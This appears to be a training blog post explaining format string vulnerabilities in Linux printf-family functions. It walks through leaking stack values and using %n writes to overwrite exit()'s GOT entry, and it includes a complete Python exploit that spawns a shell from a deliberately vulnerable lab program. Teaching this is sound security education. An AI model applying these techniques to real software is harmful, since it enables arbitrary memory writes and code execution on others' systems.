:orphan:
(linux-exploitation-format-string-vulnerabilities-and-exploitation)=

# Linux Exploitation: Format String Vulnerabilities and Exploitation

In prior blog posts, we concentrated on stack-based buffer overflows. We assume you are familiar with how arguments are passed to functions (via the stack prior to a function call) and how the stack operates during the execution of a program.

There is a second category of stack-related vulnerabilities known as format string vulnerabilities.

The format string is directly associated with the \*printf\*\* family of functions and functions such as:

-`fprintf` - prints to a FILE stream

- `printf` - prints to the `stdout` stream
- `sprintf` - prints into a string
- `snprintf` - prints into a string with length checking
- `setproctitle` - set `argv [ ]`
- `syslog` - output to the syslog facility

What is the connection between these functions?

Each is utilized to print data to a specified location.

However, what makes them unique is that they all utilize arguments that function as string formatters.

For example, you have already seen arguments like the following:

```cpp
printf("%s", variable); // prints the variable as string
printf("%p", variable); // prints the variable as pointer
```

When supplied with a string format argument and another variable as an argument, `Printf()`-like functions will use the format string (first argument) to print the variable (second argument) in a particular manner.

The most frequently encountered string format arguments are `%x` (hex), `%p` (pointer), `%d` (decimal), and `%s` (string).

Multiple formats can exist within a single `printf` command. Consider the following piece of code:

```cpp
#include <stdio.h>
#include <string.h>

int main() {
    int a = 10;
    int *b;
    char *c = "example";

    printf("%d, %p, %s\n", a, b, c);
    return 0;
}
```

It is compiled with the default compiler:

```bash
gcc example1.c -o example1
```

and then executed. The following variables are printed in their respective formats: first as a decimal, then as a pointer, and then as a string.



Change the code so that the `printf` formats do not correspond to the supplied arguments. In addition to converting all formats to `%x`, we add an additional formatter. We now have four formats and three arguments to format. We compile it with `gcc` and ignore any warnings that are generated:

```cpp
#include <stdio.h>
#include <string.h>

int main() {
    int a = 10;
    int *b;
    char *c = "example";

    printf("%x, %x, %x, %x\n", a, b, c);
    return 0;
}
```

Now, when the program is executed, it does not segfault.
It prints all values plus an additional value:



Let's run the program in the debugger to observe its inner workings.
We will place a breakpoint on `printf` and then launch the program.



Now, if we examine the stack layout prior to the call to `printf`, we recognize a number of values. The first address is the return address, and the second address points to the string-based formatting argument that is stored in memory.



As you have likely observed, there is no information regarding the variables we wish to print.

The user is responsible for supplying the proper number of arguments and formatters when using the printf function. As with every other function, all function arguments are pushed onto the stack during the call.

The formatting portion comes first, followed by the arguments to be formatted.



If the number of formatters exceeds the number of arguments, the following stack items are assumed to be arguments. Again, we will modify the example program.

The `gcc` will emit additional warnings.

```cpp
#include <stdio.h>
#include <string.h>

int main() {
    int a = 10;
    int *b;
    char *c = "example";

    printf("%08p, %08p, %08p, %08p, %08p, %08p\n", a, b, c);
    return 0;
}
```

As we see, in this case, printf starts to take subsequent items from the stack and print them:



In the early 2000s, hackers began abusing the printf() function's behavior. If a user had access to the printf arguments, he could cause the program to behave in an unanticipated manner.

Thus far, the example provided has been informative. Leakage or denial of service may occur when a segfault occurs.

The format string vulnerability was considered dead / rare until 2019, when several exploits exploiting a format string vulnerability and allowing pre-authentication RCE on popular VPN services were published by security researchers.

Let's examine how the vulnerability class is being exploited now that it has been revived. We will also demonstrate how this type of vulnerability can be exploited to execute code.

## Format string exploitation

We will attempt to alter the original execution flow of the program for the purpose of this example:

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void deadcode() {
    char *information = "The execution flow was redirected!";
    printf(information);
    exit(1);
}

void vuln() {
    char buffer[512];
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);
    exit(1);
}

int main(int argc, char **argv) {
    vuln();
}
```

As seen in the source code, there is non-executable code (function `deadcode()`). Additionally, the `vuln()` function is called within the main function.

The vuln() function receives user input from stdin and copies it to the `buffer[512]` memory location.

This memory location is then passed to `printf` as an argument.

If the user enters valid characters as an argument, the user's input is returned. Nonetheless, if string formatters are present in the buffer, the function prints out subsequent stack positions as requested.

Clearly, this is not the intended behavior, and we have confirmed that the application is susceptible to format string vulnerabilities.
_But how can we capitalize on it?_

Let's introduce the exploitation strategy methodically.

First, we will attempt to print the string returned by the function `deadcode()`. The next step is to change the value of the variable target; as you will soon discover, `printf` can both read and write memory values.

Let's first attempt to traverse the stack and examine its values. To accomplish this, we will employ a Python script whose output will be written to a file and then fed to the vulnerable application:

```python
buf = ""
buf += "AAAA"
buf += "%p" * 10

print (buf)
```

Here, we feed printf the following arguments: `AAAA` followed by 10 times the pointer format.

The result is that our string `AAAA` and the format arguments are placed somewhere on the stack.

Then, when `printf` parses the format arguments, it pulls 10 items from the stack and formats them as pointers before printing them to stdout.

Assume we are willing to exploit this vulnerability in order to leak information, such as a stack cookie. In this scenario, only one of these stack values will be of interest to us. _Can we directly access one of them?_

Let's assume that we want to print only the `AAAA` string we fed into the binary at the outset, and not all of the stack's items along the way. To accomplish this, we can utilize _Direct parameter access_.

Direct parameter access is a particular format parameter type. Instead of writing `%p %p %p`, we can write `%3$p` to format the third value as a pointer.

Let’s just get the `AAAA` using the direct parameter access,
as follows:

Can the string `AAAA` be printed using this method?
No, unfortunately.

This is because different values must be passed to the format arguments. Some require passing formatted arguments by reference, while others require passing them by value.

By reference, it indicates that it expects a pointer to the formatted argument, which is the case with percent signs. Since there is only `0x41414141` on the stack, this is not a valid memory location; attempting to use a pointer to such a value results in a segmentation fault.

However, `%p` only requires the value, so whatever is on the stack will be printed. When testing for format strings, it is crucial to use formatters that require a value.

If you feed a vulnerable application an excessive amount of `%s` characters, it is likely that it will crash.

`%n` is unique among format parameters because it permits writing bytes to memory rather than reading them. This is the reason why format strings are so dangerous.

Using a format string vulnerability, we achieved a _write-what-where_ condition.

In this instance, a suitable target for the overwrite is:

- The return address - allowing us to return from the `vuln()` function to arbitrary code.
- If `ASLR` is not present, we can store shellcode in environment variables and then use its address to overwrite a strategic pointer.
- A GOT entry of an alternative function, such as `exit()`.
- Replace dynamic sections such as `.dtors`

Let’s use a modified source code of the vulnerable program.

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;
void shell() {
    system("/bin/sh");
}

void vuln() {
    char buffer[512];
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);
    exit(1);
}

void deadcode() {
    char *information = "The execution flow was redirected!";
    printf(information);
    exit(1);
}

int main(int argc, char **argv) {
    vuln();
}
```

A utility function has been added. It will be compiled with the following options:

```bash
gcc -fno-stack-protector -z execstack f.c –o f
```

However, in such a scenario, neither DEP nor ASLR can prevent the format string exploit because we do not operate on stack execution or randomize addresses.

We'll exploit an arbitrary write using the format string.
Let's begin by deciding what and where we will write.

As the function that calls a shell is located at `0x80484eb`, we will write this value to the current pointer.



Right after the call to `printf`, there is another function called in `vuln()` - `exit()`.

This is a good candidate for the `GOT` overwrite, as it is called directly after `printf`.

The disassembly allows us to locate the GOT entry for the exit:





We will use the address `0x804a01c` and write the address
of the `shell()` function.



Let's create the exploit:

```python
import struct

shell = 0x80484eb # address of function shell()
exit = 0x804a01c # the address we read in gdb
exit_high = 0x804a01c + 2 # in order to perform second write

buf = ""
buf += struct.pack("<I", exit_high)
buf += struct.pack("<I", exit)

counter = 0x804 - len(buf) # we calculate the counter in the same way

buf += "%" + str(counter) + "p"
buf += "%4$hn" # first we write the high bytes

counter = 0x84eb - 0x804
buf += "%" + str(counter) + "p"
buf += "%5$hn"

print (buf)

```

We will save it as `e`. Then, a breakpoint is placed before exit to ensure that the entry was written correctly.



As the breakpoint is hit, we examine the memory content at
the GOT entry for exit. The address of `shell()` is there!



If we allow the program to continue, we see that bash is
spawned.



As follows, we will run the exploit outside of the debugger and use the cat trick to keep the stdin open.

```bash
(cat e; cat) | ./f
```



The stdin is corrupted but the shell is spawned. We have a
working exploit.

## Conclusion

Let's summarize the proces of exploiting a format string:

- Confirm the vulnerability - the input of `%x`, `%p` might cause the application to behave in unusual way, and `%s` or `%n` may crash it.
- Find the offset to our input on the stack - after which the format argument of our input starts to be printed.
- Confirm the offset using direct parameter access. Find the overwrite candidate. It can be a GOT entry of a function.
- Find the address with which it can be overwritten. Depending on the countermeasures in place, it might be another function address, or the address of the shellcode hidden in an environment variable.
- Try to perform the arbitrary write using short writes and direct parameter access. You can confirm what you are overwriting using the debugger.

The occurrence of format strings in the wild is still possible, as demonstrated by actual usage. In addition, they can be an effective secondary attack vector for creating memory leaks.

## References

[Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html)
::: In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**
